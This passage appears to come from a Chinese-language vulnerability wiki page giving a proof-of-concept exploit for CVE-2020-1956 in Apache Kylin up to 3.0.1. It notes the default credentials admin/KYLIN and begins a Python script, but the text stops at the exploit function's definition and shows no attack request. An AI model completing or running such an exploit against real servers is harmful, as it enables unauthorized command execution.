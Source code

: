 ![](image/kylin-14.png)

## 漏洞利用POC

> [!NOTE]
>
> POC利用前提是拥有账号密码，默认账号密码是 admin/KYLIN

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
```